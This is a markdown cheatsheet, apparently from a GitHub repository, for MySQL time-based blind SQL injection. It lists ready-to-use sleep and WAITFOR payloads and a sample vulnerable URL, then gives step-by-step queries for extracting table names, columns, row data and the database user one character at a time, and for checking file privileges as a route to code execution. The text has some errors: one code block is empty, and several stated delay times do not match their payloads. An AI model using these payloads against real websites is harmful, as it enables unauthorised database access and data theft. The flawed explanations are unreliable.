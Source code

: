 # MySQL Time based SQL Injection Cheatsheet
  
  This is almost the same technique followed as [Blind Based SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)
  
  ## Detecting the vulnerability
  The following stacked query detects if the website if vulnerable to Time Based SQL injection, by checking the website time response. The following condition is True because 1=1, which later executes the sleep function, so a 10 seconds delay is what we are expenting on the website's response.
  
  ```sql
  SELECT CASE WHEN (1=1) THEN pg_sleep(25) ELSE pg_sleep(0) END--
  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
  'XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
  1'=sleep(25)='1
  '%2b(select*from(select(sleep(2)))a)%2b'
  WAITFOR DELAY '0:0:25';--
  OR SLEEP(25)
  AND SLEEP(25) AND ('kleiton'='kleiton
  WAITFOR DELAY '0:0:25' and 'a'='a;--
  IF 1=1 THEN dbms_lock.sleep(25);
  SLEEP(25)
  pg_sleep(25)
  and if(substring(user(),1,1)>=chr(97),SLEEP(25),1)--
  DBMS_LOCK.SLEEP(25);
  AND if not(substring((select @version),25,1) < 52) waitfor delay  '0:0:25'--
  1,'0');waitfor delay '0:0:25;--
  (SELECT 1 FROM (SELECT SLEEP(25))A)
  %2b(select*from(select(sleep(25)))a)%2b'
  /**/xor/**/sleep(25)
  or (sleep(25)+1) limit 1 --
  ```
  
  Example:
  ```http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'```  
  If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack.
   
 
 ## Retrieving the tables  
  
  Find the first character of the first table:
  ```sql
  and if((select SUBSTRING(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
  ```
  
  Find the second character of the first table:
```sql
and if((select SUBSTRING(table_name,2,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

  Find the third character of the first table:
```sql
and if((select SUBSTRING(table_name,3,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

Find the first character of the second table:
```sql
and if((select SUBSTRING(table_name,1,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

Find the second character of the second table:
```sql
and if((select SUBSTRING(table_name,2,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

So if you have realised by far, we are using this logic:
limit **3**,1 -> the number of the table (targeting the third character)
table_name,**3**,1 -> the number of the character in the table (targeting the fourth character of the table [the first character starts from 0, not 1])


***Guess table names***  

If you don't want to bruteforce character by character every possible table on the db, it is more efficient to bruteforce the names (if a table name is found, the request will be delayed for 5 seconds).
Guess the name of the first table:  
```sql
and IF(SUBSTRING((select 1 from [guess_your_table_name] limit 0,1),1,1)=1,SLEEP(5),1)
```


## Retrieving the columns from a table

A table has 1 or more columns. To dump the first character of the first table, use the following query:  
```sql

```

***Guessing the columns***  
(bruteforce [guess_your_column_name] with random column names untill the request is delayed by 5 seconds. Also replace [existing_table_name] with the table that you found from the previous step):  
```sql
pic_id=13 and IF(SUBSTRING((select substring(concat(1,[guess_your_column_name]),1,1) from [existing_table_name] limit 0,1),1,1)=1,SLEEP(5),1)-- -
```

## Retrieving the data from the columns  

The following payload will search for the first character of the first column in the database. If the character is guessed, then it will sleep for 5 seconds (remember to replace **table_name** and **column_name** with the table and column that you found on the previous step):  

```sql
and if((select mid(column_name,1,1) from table_name limit 0,1)='a',sleep(5),1)--
```

To search for the first character of third column in the database, you should increase the number to 3:  
```sql
and if((select mid(column_name,3,1) from table_name limit 0,1)='a',sleep(5),1)--
```

To search for the third character of the first column, you should increate the first number after **table_name limit** to 2 (the first index is 0):  
```sql
and if((select mid(column_name,1,1) from table_name limit 2,1)='a',sleep(5),1)--
```

# Privilege escalation

## Finding the db user
Find the first character of the user (if guessed then the request will be 5 seconds delayed):
```sql
and if(substring(user(),1,1)='a',SLEEP(5),1)--
```

Find the second character of the user... and so on:
```sql
and if(substring(user(),2,1)='d',SLEEP(5),1)--
```

## Enumerate user's permission

The following query will show if the user we found from the previous step, has writing permission, which can lead to RCE:  
```sql
AND if (MID((SELECT file_priv FROM mysql.user WHERE user = 'root'),1,1) = 'Y', sleep(10), null)--
```
